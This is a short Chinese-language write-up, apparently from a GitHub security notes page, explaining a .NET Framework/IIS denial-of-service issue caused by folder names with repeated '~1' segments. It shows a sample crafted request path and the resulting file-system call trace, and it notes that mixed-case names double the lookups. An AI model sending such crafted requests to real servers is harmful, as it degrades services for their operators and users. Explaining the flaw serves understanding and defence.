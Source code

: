 **.Net Framework 拒绝服务攻击**

当请求文件夹名称包含 ~1 的请求,会导致不存在该文件的 .Net Framework 去递归查询所有根目录。如果只有一个“~1”是无效的,当“~1”大于一个,比如像这样：
`/wwwtest/fuck~1/~1/~1/~1.aspx`
此时文件系统会这样调用：
```
\wwwtest                           SUCCESS
\wwwtest\fuck~1\~1\~1\~1           PATH NOT FOUND
\wwwtest\fuck~1                    NAME NOT FOUND
\wwwtest\fuck~1\~1\                PATH NOT FOUND
\wwwtest\fuck~1\~1\~1\             PATH NOT FOUND
\wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
\wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
\wwwtest\fuck~1\~1\~1              PATH NOT FOUND
\wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
\wwwtest\fuck~1\~1\~1              PATH NOT FOUND
\wwwtest\fuck~1\~1                 PATH NOT FOUND
\wwwtest\fuck~1                    NAME NOT FOUND
\wwwtest                           SUCCESS
\wwwtest                           SUCCESS
```
如果我们请求的文件/文件夹名同时存在大小写时,这个请求会被请求两次,一次是原封不动的请求,一次是全部使用小写的请求。

下表显示了每个请求的 FS 调用的数量(Windows 2008 R2, IIS 7.5(latest patch – June 2012), and .Net framework 4.0.30319 (在别的系统下可能会不同))
![image](../../../../assets/img/安全/1.jpg)

